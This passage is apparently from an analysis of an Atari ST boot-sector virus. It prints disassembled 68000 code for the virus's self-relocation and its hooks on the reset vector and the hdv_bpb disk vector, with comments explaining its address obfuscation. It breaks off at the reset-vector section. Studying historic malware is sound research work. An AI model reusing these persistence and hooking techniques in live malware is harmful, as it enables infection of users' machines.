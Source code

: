 ```asm
        LEA       START(PC),A0                      
        MOVEA.W   #VIRUS_RAM_LOCATION,A1            ; 0x160
.copy:
        MOVE.L    (A0)+,(A1)+
        DBF       D1,.copy                          ; copy 131x4 = 524 bytes from Bootcode to VIRUS_RAM_LOCATION

.set_variables:
        MOVEA.L   #VARIABLES_LOCATION,A1            ; A1 = 0x140

        ; not sure what it does
        MOVE.L    #$263C0000,(A1)                   ; patch 0x140 => MOVE.L #$aaaaaaaa,d3 ???

        ; this is too obfuscate the target address: 0x140+0x426-0x140 = 0x426
        MOVE.L    #RESVEC_MAGIC,(RESVALID-VARIABLES_LOCATION)(A1)  ; setting resvalid: RESVALID
        BRA.S     SET_VECTORS                       ; call set vectors routine
```

### The SET_VECTORS routine:

This routine, using some address obfuscation, will simply:
 - Set the `resvec` reset vector 
 - Save the current `hdv_bpb` vector 
 - Set the new `hdv_bpb` vector 
 - Patch a `jmp` instruction directly jump to the old vector

```asm
; ----------------------------------------------------------------------------------------------------------
; SET VECTORS
; A1 = VARIABLES_LOCATION = 0x140
; ----------------------------------------------------------------------------------------------------------
SET_VECTORS:
        ; same as before, this is address obfuscation, basically it sets the registers

        ; Set reset vector: copy RESET_VECTOR (0x2BA) to RESVECTOR
        MOVE.L    #RESET_VECTOR_ADDR,(RESVECTOR-VARIABLES_LOCATION)(A1)

        ; Set hdv_bpb vector: save HDV_BPB vector to OLD_HDV_BPB_VECTOR_ADDR and set HDV_BPB_VECTOR_ADDR to HDV_BPB
        MOVE.L    (HDV_BPB-VARIABLES_LOCATION)(A1),(OLD_HDV_BPB_VECTOR_ADDR-VARIABLES_LOCATION)(A1)
        MOVE.L    #HDV_BPB_VECTOR_ADDR,(HDV_BPB-VARIABLES_LOCATION)(A1)

        ; patch JMP with old hdv_bpb
        MOVE.L    (OLD_HDV_BPB_VECTOR_ADDR-VARIABLES_LOCATION)(A1),(OLD_HDV_BPB_VECTOR_JMP_VALUE-VARIABLES_LOCATION)(A1)
        RTS
```

### The Reset Vector
